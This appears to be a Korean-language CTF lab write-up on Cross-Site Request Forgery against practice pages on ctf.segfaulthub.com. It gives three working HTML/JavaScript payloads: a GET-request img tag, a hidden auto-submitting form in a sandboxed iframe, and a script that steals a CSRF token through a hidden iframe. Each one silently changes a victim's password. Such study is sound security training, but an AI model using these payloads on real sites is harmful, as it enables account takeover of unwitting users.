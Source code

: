 ```yaml
---
title: "CSRF"
date: 2025-07-10
excerpt: "Cross-Site Request Forgery (CSRF) 취약점을 이용하는 실습 기록으로, 공격자의 관점으로 피해자의 브라우저를 통해 의도하지 않은 요청이 전송되도록 악성 요청을 구성하며, 이를 통해 계정 설정 변경, 비밀번호 변경 등의 동작을 수행할 수 있다."
layout: single
toc: true
toc_label: "CSRF"
toc_icon: "book"
toc_sticky: true
categories: [web]
tags: [web, csrf, hacking]
header:
  teaser: /assets/web-screenshots/csrf/csrf.png
  teaser_home_page: true
---
```


# 개요

이 페이지는 웹 애플리케이션 내 Cross-Site Request Forgery (CSRF) 취약점을 이용하는 실습 기록입니다.

공격자의 관점으로 피해자의 브라우저를 통해 의도하지 않은 요청이 전송되도록 악성 요청을 구성하며, 이를 통해 계정 설정 변경, 비밀번호 변경 등의 동작을 수행할 수 있습니다.

---

# 실습 내용 정리

## CSRF 1

해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이 파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가진다.

![CSRF1 burp suite](/assets/web-screenshots/csrf/csrf1_burp_suite.png)

공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입하였다.

**페이로드:**

```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](/assets/web-screenshots/csrf/csrf1_post.png)

 
사용자는 일반 게시글처럼 보여 클릭 유도

![CSRF1 list](/assets/web-screenshots/csrf/csrf1_list.png)

관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경된다**.

---

## CSRF 2

해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리한다.

이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능하다.

![CSRF2 burp suite](/assets/web-screenshots/csrf/csrf2_burp_suite.png)

요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있다.


![CSRF2 post](/assets/web-screenshots/csrf/csrf2_post.png)

**페이로드:**

```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id" value="">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,

같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있다.**

또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 한다.

따라서 피해자는 **회원 정보 수정에 성공하셨습니다!** 와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출된다.**

---

## CSRF 3
 
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정한다.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있다.


![CSRF3 burp suite](/assets/web-screenshots/csrf/csrf3_burp_suite.png)

공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**한다.

**페이로드:**

```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](/assets/web-screenshots/csrf/csrf3_post.png)

공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없다.

- 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있다.**